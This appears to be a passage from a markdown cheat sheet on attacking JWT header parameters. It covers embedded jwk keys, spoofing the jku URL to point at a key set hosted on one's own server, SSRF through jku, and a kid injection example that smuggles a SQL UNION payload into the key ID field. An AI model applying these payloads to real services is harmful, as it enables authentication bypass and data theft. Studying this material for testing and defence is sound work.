 ```json
{  
"alg": "RS256",  
"typ": "JWT",  
"jwk": {  
		RSA KEY HERE 
}  
}
```
<br />

#### JSON Web Key Set URL
Some servers, instead of embedding public keys directly using the `jwk` header parameter, use the JSON Web Key Set URL (`jku`) to reference a JWK Set containing the key.

```json
{  
"alg": "RS256",  
"jku": "https://example.com/keys.json"  
}
```
<br />

##### Spoofing the jku header parameter
In this attack, since we can embed public keys using `jku` as a URL, you can generate an RSA key using `JWT Editor`.

```json
{ "keys": [ 
	KEY_ HERE
] }
```

Then, host it on your own server and replace or insert the `jku` value with your payload URL.

> _NOTE_ : You can use This Parameter to exploit SSRF vulnerabilities

<br />

#### Key ID
Key ID (`kid`) Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. 

##### Key ID Injection

This parameter, in bad implementations, may lead to various vulnerable injections, such as SQL Injection, Command Injection, LFI.

For example
##### SQL Injection
```json
{

"alg": "HS256",

"typ": "JWT",

"kid": "key' UNION SELECT 'password' from users" ,

}
```
<br />

